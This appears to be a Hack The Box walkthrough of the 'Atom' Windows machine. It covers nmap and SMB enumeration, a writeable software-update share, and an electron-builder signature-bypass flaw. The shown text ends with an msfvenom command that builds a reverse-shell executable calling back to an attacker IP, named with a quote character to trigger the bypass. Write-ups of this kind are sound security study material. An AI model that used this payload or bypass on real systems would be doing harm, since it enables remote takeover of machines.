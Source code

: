 ```yaml
---
title:     "Hack The Box - Atom"
tags: [windows,medium,electron,smb,portable kanban,redis,encryption,xampp,php]
categories: HackTheBox
---
```

[![info_card.png](/img/atom/info_card.png)](/img/atom/info_card.png)

Atom is a medium rated machine on HackTheBox by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531) which got bumped from an easy rating to medium on its release day. In this walkthrough we first will abuse the `electron-builder` update system to get a reverse shell as a user. After that we will follow two similar ways to root both involving interacting with a redis service after finding and decrypting a password  found in a config file.

# User

## Nmap

To start our enumeration of the machine, we begin with a full ports nmap scan, followed by a script and version detection scan on the open ports for a full picture on the attack surface.

`All ports scan`

```
$ sudo nmap -p- -T4  10.129.132.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 11:31 CEST
Nmap scan report for 10.129.132.110
Host is up (0.20s latency).
Not shown: 65528 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 1827.50 seconds
```

`Script and version scan on open ports`

```
$ sudo nmap -sC -sV -p 80,135,443,445,5985,6379,7680 10.129.132.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 12:11 CEST
Nmap scan report for 10.129.132.110
Host is up (0.16s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
7680/tcp open  pando-pub?
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m40s, deviation: 4h02m30s, median: 39s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-18T03:13:34-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-18T10:13:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.90 seconds
```

## Web
Port 80 and 443 look most promising so we will start there. They both seem to serve the same content, which is a note taking app. You can download and install it on mac or windows, however this step is neither needed nor helpful to complete the machine, so we will just ignore it.

[![homepage.png](/img/atom/homepage.png)](/img/atom/homepage.png)

## Electron-builder

Listing the smb shares next we see a `Software_Updates_Disk` share. 

```
$ smbclient -L //10.129.132.110/
Enter WORKGROUP\jack's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Software_Updates Disk      
SMB1 disabled -- no workgroup available
```

Connecting to it we find a pdf and 3 client folders, also the whole share is writeable.

```
$ smbclient  //10.129.132.110/Software_Updates
Enter WORKGROUP\jack's password: 
Try "help" to get a list of possible commands.
smb: \ > dir
  .                                   D        0  Sun Apr 18 11:58:47 2021
  ..                                  D        0  Sun Apr 18 11:58:47 2021
  client1                             D        0  Sun Apr 18 11:58:47 2021
  client2                             D        0  Sun Apr 18 11:58:47 2021
  client3                             D        0  Sun Apr 18 11:58:47 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 13:18:08 2021

                4413951 blocks of size 4096. 1361200 blocks available
smb: \ > get UAT_Testing_Procedures.pdf
```

The pdf is a quality assurance documentation for the app downloadable on the webpage. 
The interesting part is especially point two, in which is stated all updates placed in any of the `client` folders will be checked and installed.

[![quality_assurance.png](/img/atom/quality_assurance.png)](/img/atom/quality_assurance.png)

There is a vulnerability in electron-builder which is described in [this](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) blogpost. Crafting a malicious yaml and exe, we can bypass the signature check in the install process by triggering a parse error in the signature verification script, placing a single quote in the filename. With this we are able to run an arbitrary exe on the target machine which is in our case a msfvenom reverse shell.

In a first step we create the reverse shell with msfvenom.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f exe -o gr\'em.exe
```
